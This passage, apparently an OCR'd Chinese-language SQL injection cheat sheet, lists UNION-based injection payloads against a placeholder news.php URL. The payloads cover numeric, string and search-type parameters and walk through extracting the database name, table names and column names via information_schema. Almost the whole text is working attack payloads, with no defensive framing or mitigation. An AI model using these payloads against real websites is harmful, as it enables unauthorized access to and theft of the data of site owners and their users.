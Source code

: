 **数字型**

```sql
http://www.xxx.cn/news.php?p=1&id=4  and 1=2 union select 1,2,database(),4,5,6,7,8,9,....
```

  

**字符型**

```sql
http://www.xxx.cn/news.php?p=1&id=4  and 1=2 union select 1,2,database(),4,5,6,7,8,9,.... #
```

  

**搜索型**

```sql
x%' and 1=2 union select 1,2,database(),4,5,6,7,8,9,.... #
```

### **查数据库中表名**

**数字型**

```
http://www.xxx.cn/news.php?p=1&id=4   and 1=2 union select 1,group_concat(table_name),3,4,5,6,7,8,9,10,11,12,13,14,15,16,17 from information_schema.tables where table_schema='数据库名'
```

数据库名也可以使用十六进制

  

**字符型**

```
http://www.xxx.cn/news.php?p=1&id=4   and 1=2 union select 1,group_concat(table_name),3,4,5,6,7,8,9,10,11,12,13,14,15,16,17 from information_schema.tables where table_schema='数据库名' #
```

数据库名也可以使用十六进制

  

**搜索型**

```
X%' and 1=2 union select 1,2,group_concat(table_name),4,5,6,7,8,9,.... from information_schema.tables where table_schema='数据库名' #
```

数据库名也可以使用十六进制

### **查表中的列名**

**数字型**

```
http://www.xxx.cn/news.php?p=1&id=4 and 1=2 union select 1,group_concat(column_name),3,4,5,6,7,8,9,10,11,12,13,14,15,16,17 from information_schema.columns where table_name='表名'
```

表名也可以使用十六进制
